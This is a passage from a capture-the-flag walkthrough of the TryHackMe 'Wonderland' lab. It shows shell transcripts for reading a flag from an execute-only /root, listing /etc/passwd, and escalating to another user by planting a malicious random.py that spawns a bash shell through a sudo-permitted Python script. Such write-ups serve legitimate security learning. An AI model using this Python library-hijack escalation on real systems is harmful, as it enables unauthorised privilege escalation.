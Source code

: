 I didn't have a clue how to exploit this so I just continued my enumeration, looking up the kernel version led me to try CVE-018-18955 on the box, which kind of gave me a "root prompt" but without any special priveleges, and I have no clue why

I took a step back and tried finding the `user.txt` flag, I ran couple `find` commands but nothing came up, I started running out of ideas till I viewed the hint on the website

![upside down](https://raw.githubusercontent.com/barryclark/jekyll-now/526bd72a4b420ec05d1726b8ce81696a440af58f/assets/thm/wonder/upside_down.png)

I went to check the root directory and surprise surprise, we have execute permissions on it. this means we can't list the files on `/root` but we can run commands or read files from there as long as we know the names of the files, lucky for me, tryhackme tells me to > Obtain the flag in user.txt

```bash
alice@wonderland:~$ ls -lhd /root
drwx--x--x 4 root root 4.0K May 25  2020 /root
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ cat /root/user.txt
thm{"REDACTED FLAG"}
alice@wonderland:~$
```
### escalating to rabbit

examining `/etc/passwd` tells me that there 4 regular users on the box

```bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```
I already know I can execute a script as the user `rabbit` but didn't know that to do with that information, and with of lot of time passed enumerationng, I decided to peak at a write up, but hey let's keep that between me and you

doing so I've learned 2 new things
<ul>
    <li> you can execute commands as another user using `sudo -u USER COMMAND` </li>
    <li> python tries to find imported libraries in the current working directory before looking for them somewhere else, knowing this we can make a malicious `random.py` to elevate priveleges </li>
</ul>
   

of course, it's so obvious, *if* I had known those informations before

```bash
alice@wonderland:~$ echo 'import pty;pty.spawn("/bin/bash")' > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
rabbit@wonderland:~$
```

### escalating to hatter
